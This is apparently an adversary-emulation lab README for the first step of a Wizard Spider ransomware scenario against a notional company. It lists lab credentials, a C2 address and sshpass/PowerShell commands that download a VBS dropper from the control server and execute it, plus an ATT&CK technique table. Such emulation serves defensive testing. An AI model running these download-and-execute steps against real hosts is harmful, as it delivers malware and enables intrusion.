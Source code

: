 # Scenario Overview

This scenario emulates Wizard Spider conducting a ransomware attack against a notional organization (Oz Inc).

This scenario emulates Wizard Spider TTPs based on  several malware specimens either used by or associated with the Wizard Spider actors:

1. Emotet
2. Trickbot
3. Ryuk

---

## Step 1 - Initial Compromise

Step1 emulates Wizard Spider gaining initial access using a Microsoft Word document.

The word document contains [obfuscated VBA macros](../../Resources/Emotet_Dropper) that downloads and executes a malicious DLL.

The [malicious DLL](../../Resources/Emotet) establishes a C2 session with the adversary control server.

The malicious DLL is based on Emotet.

Compromised user info:
User:	`judy@oz.local` 

Password: `Passw0rd!`

System: `10.0.0.7 / dorothy`

C2:	`192.168.0.4:80 HTTP; traffic is AES-encrypted with symmetric key and base64 encoded`

---

### ☣️ Procedures

Start the control server from your EL machine.

```bash
cd ~/wizard_spider/Resources/control_server
sudo ./controlServer
```

SSH into Dorothy / 10.0.0.7 as user Judy:
```bash
sshpass -p"Passw0rd!" ssh  judy@10.0.0.7 -oStrictHostkeyChecking=no 'powershell.exe -Command "Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/adb.txt -OutFile C:\\Users\\judy\\adb.vbs"'
```

```bash
sshpass -p"Passw0rd!" ssh  judy@10.0.0.7 -oStrictHostkeyChecking=no 'powershell.exe -Command "cscript.exe C:\\Users\\judy\\adb.vbs"'
```
| TTP | Notes |
| -------- | ------- |
| T1078.002  | WizardSpider uses valid credentials. |
| T1021.004   | WizardSpider uses SSH access the machine |
| T1059.001    | WizardSpider uses powershell to execute code |
| T1105   | WizardSpider uses HTTP to ingress files |
| T1204.002   | WizardSpider executes malicious VBA macros. |
|T1027.013 | WizardSpider encodes VBA code|
| T1071.001 | WizardSpider uses HTTP for network communications. |
